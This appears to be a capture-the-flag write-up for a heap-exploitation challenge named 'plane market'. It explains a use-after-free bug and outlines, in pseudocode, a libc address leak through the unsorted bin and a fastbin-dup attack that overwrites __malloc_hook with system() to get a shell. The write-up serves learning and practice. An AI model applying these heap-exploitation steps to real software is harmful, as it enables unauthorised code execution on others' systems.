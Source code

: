# plane market

# Vulnerability
- Use After Free
- Out of Bound (Not exploited)

# Overview
* There's 7 options. But 3 options are important.
	* ![sell plane](./sell_plane.png?raw=true)
	* ![delete plane](./delete_plane.png?raw=true)
		* Allocated with any size and freed the desired heap chunk at any time.
		* But size is integer range (4 byte).
		* the structure is the followings. **not saved in heap. just only in `plane_list`**
		```c++
		struct plane {
			char *name;		// 8 byte
			int cost;		// 4 byte --> 8 byte (cuz' alignment)
			time_t t;		// 8 byte
			char *comment;	// 8 byte
			int name_size;	// 4 byte --> 8 byte (cuz' alignment)
		}
		```
	* ![change plane name](./change_plane_name.png?raw=true)
		* Once accessed in here, it's able to access the freed heap.
		* [`Use After Free`]

# Exploit
* Memory Leak
	* Using main-arena's address from unsorted bin
	```
	sell_plane(Unsorted-bin)
	sell_plane(fastbin) <--- for not merging
	...
	free(unsorted-bin)
	sell_plane(0x00) <--- not entered name, name = main-arena's address
	view_plane(idx=0) <--- print name of first chunk
	```
	* ![1](./1.png?raw=true)

* Get Shell
	* fastbin dup using UAF + overwrite malloc hook
	```
	sell_plane(fastbin1)
	sell_plane(fastbin2)
	change_plane_name(fastbin1)
	delete_plane(fastbin2) # fastbin -> 2
	delete_plane(fastbin1) # fastbin -> 1 -> 2
	change_plane_name(fastbin1) # fastbin -> 1 -> FAKE_CHUNK (&_malloc_hook)
	...
	sell_plane(fastbin) # allocated at addr of fastbin1
	```
	* ![2](./2.png?raw=true)
	* Allocated `&_malloc_hook - 0x3`, which is name's address.
		* Notice that name's address - 0x10 has a structure of heap chunk, fastbin.
	* Just enetered the address of `system()`.
		* malloc(size) == system(size)
		* "/bin/sh\x00" is hex values of 8 bytes, so not proper at integer type.
		* "sh" is 0x6873. (good cheet) write at address of name's size.
		* malloc(size) == mallo(&0x6873) == system("sh")
	* p.s: one shot not matched :(
	
